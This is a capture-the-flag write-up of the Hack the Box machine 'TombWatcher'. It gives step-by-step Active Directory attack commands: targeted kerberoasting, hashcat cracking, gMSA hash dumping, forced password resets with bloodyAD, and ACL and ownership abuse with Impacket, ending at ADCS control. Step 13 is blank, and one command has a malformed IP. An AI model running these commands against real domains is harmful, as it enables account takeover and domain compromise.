 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred
`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball
`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec
`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.
`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. 

